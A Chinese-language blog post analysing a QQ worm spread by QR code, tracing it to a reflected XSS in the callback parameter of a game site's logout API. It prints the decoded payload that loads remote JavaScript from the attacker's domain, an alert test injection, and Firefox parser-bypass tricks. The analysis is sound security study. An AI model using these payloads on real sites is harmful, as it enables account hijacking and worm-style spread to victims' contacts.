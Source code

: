 ```yaml
---
layout: post
featured-img: worm
title: QQ蠕虫二维码分析
summary: 由蠕虫病毒二维码发起的CSRF攻击
---
```



**前言**

前几天看到了至少两位同学因为扫描这个二维码，而后即发送二维码给所有好友，以蠕虫形式传播



***

解析二维码，获得网址：

`http%3A%2f%2fi.ali213.net%2fapi.html%3Faction%3Dlogout%26callback%3D%00%00%00%00%00%00%00%3CscripT%2fsrc%3D%2f%2fccccccccccc.nekeda.cn%2ftemplate%2fapp.js%3E%3C%2fscripT%3E%3C%21--`

URL decode得到`http://i.ali213.net/api.html?action=logout&callback=%00%00%00%00%00%00<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

whois查询`ali213.net`域名，为游侠游戏网站，看来是调用了正经网站的API



***

访问API：`http://i.ali213.net/api.html?action=logout`

```html
{
	"status":1,
	"msg":"\u767b\u51fa\u6210\u529f",
	"data":{
		"script":"<script type=\"text\/javascript\"src=\"http:\/\/game.ali213.net\/api\/uc.php?time=1534038380&code=f755W9lt6o%2BqYgP7noRqshLJkkaC%2B5tatuf93A%2BStzaG4RDk%2Bc8tvBDMQl%2BFMy60io72HumXtCjNwgVsyA\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/shop.ali213.com\/api\/uc.php?time=1534038380&code=52dbb8X%2Fn%2B1bF%2BRO8srsZBgjLnUcoQ1ZmNOsXsfx3iQAYl3HWz14r0vKPQiWJoXAqqx5FT4BvlTR35Otug\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/passport.ali213.net\/api\/uc.php?time=1534038380&code=f003M1FK18joxKRVW8wD7q06z6PLqWLHnzOpVSNEXaAqZBZS%2B4i7oMEMi1zPmHbQqhmeqELwecnjeLAkOQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/plugin.ali213.net\/api\/uc.php?time=1534038380&code=3358a%2FEySHeMPKTgQfm0ikkqPMDIjun4EUoy0mtcUu0%2BZAuIxOSuQGVBvpoVTq1P1D6s2JGCRLTdXak4MQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/i.ali213.net\/api\/uc.html?time=1534038380&code=c0ecTf31BWZivvpSCfIz2Vy9pu7aEmIf1a6FGU16c%2BrNtkvNBBFs22E%2Fbvr6CCSyX2xb7vt2ZxazvzsCSQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/api.ali213.net\/api\/uc.php?time=1534038380&code=6b3cTo0z9viiFnow3HTKykapqEpk%2FejYeoC5BKYRNsYtK8wh%2FlO71%2BJk0NxrugQw5W%2F2kn4VjHQdVER0tQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/3g.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6095414c49fa4bad204bb189e405aebe\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/game.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6fc3efe1ae20847e0326173dc5b7ee7c\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/zhidao.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=3a12ba4fb7d01c0e1de8ec8510265356\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/pk.im.iyouxia.com\/aliSSO.php?action=logout&time=1534038381&signature=f283a40aef2e97d83719e57ed3293ed9\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/ol.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=54fd6efba68f7aa98248b4fec552b9a2\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/comment.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=424ad74c51c8582bdf9061b23f3c4215\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/wan.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=0bc3326cd131495296a095bac06dfc3a\" reload=\"1\"><\/script>"
	}
}
```

得到正常的log out json数据



***

接着添加`callback`参数：

`http://i.ali213.net/api.html?action=logout&callback=%3Cscript%3Ealert(0);%3C/script%3E`

![](https://upload-images.jianshu.io/upload_images/11356161-1bd0313bde07798d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

回调的参数改写页面代码格式为：

```html
callback([json]{
	"xxx":"xxx",
	"xxx":"xxx"
})
```

所以这样的接口就相当于是一个可由攻击者写入任意`js`代码的页面，从而发起`xss`



***

**XSS** `payload`：

`<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

执行后的页面代码为

```html
<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--({"status":1,"msg":"\u767b\u51fa\u6210\u529f","data":..........
.....
```

+ `<script/src`

  + FireFox的解析器会将标签后的非字母非数字字符认为是一个空白或无效字符
  + Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间 ，如`<body onload@#*!$=alert(0)>`
+ `src=//xxx.com`
  + 协议解析绕过。在FireFox下无效
+ `<!--`
  + 注释后面的json部分，有点多余，不注释也不会影响`payload`代码



***

whois查询域名`nekeda.cn`的注册人：魏xx，名下有4600+域名记录

一级域名未绑定IP，二级域名解析到一个`IIS 7`服务器，访问蠕虫`js`代码，来晚了已经404了。

猜想是利用`webQQ`协议的`CSRF`，获取所有好友名单并发送二维码
